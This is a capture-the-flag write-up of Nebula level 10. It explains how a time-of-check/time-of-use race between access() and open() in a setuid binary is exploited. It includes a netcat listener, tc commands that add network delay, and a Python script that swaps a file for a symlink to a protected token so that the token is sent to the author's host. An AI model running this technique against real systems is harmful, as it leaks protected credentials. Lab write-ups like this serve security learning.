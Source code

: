 Level 10

We're starting to play with sockets. I've got something that will remote off a file to a host, assuming it has access to the host.

So first I need to set up something listening on my local machine. Given the port on line 38 of the C code:

`nc -l -k -p 18211`

Sets up a listener on my local machine `10.0.29.4`. I tested my listener by making a file `~/testfile` with the text `this is a test file`, and then executed `./flag10 ~/testfile 10.0.29.4`. Sure enough, I see it via `nc` with a header `.oO Oo.`.

My guess is that I have to exploit the race condition as described in the [access(2)](http://linux.die.net/man/2/access) documentation. Get past `access` with an OK check, and then change the file to a symlink upon it being accessed.

The `open()` call is on line 54, well below `connect()`. If I can manipulate network latency and not timeout I could manually swap the files around. I could use `tc` if I was root to induce network latency or make a really slow connection. I first tried to get inotify to pay attention to changes, but I couldn't get it to reliably work at all on any pre-existing file, after much poking around, so I gave up on that.

Instead, I'll go for the whole network latency bit, and hope I can make connect() timeout change. I found [this guy's blog on adding network latency](http://sys-log.bencane.com/2012/07/tc-adding-simulated-network-latency-to-your-linux-server/) which I did to my Kali instance running the listener:

`tc qdisc add dev eth1 root netem delay 1000ms`

which gives me a full second to swap the files out, which should be way more than enough to instantiate the race condition. Back on the nebula VM, I wrote a ghetto python script that will run the first one in the background and swap out the others:

```
import time, os
import subprocess

os.system('rm /home/level10/x; touch /home/level10/x')
p=subprocess.Popen("/home/flag10/flag10 /home/level10/x 10.0.29.4", shell=True, stdout=subprocess.PIPE)
time.sleep(0.1)
subprocess.Popen("rm /home/level10/x; ln -s /home/flag10/token /home/level10/x", shell=True)
out, err = p.communicate()
print out
```

Running this and watching my netcat instance...

```
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```

Boom. Race condition pwnage. Back to the VM after I remove the delay with `tc qdisc del dev eth1 root netem`:

```
su flag10
Password: <the GUID>
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
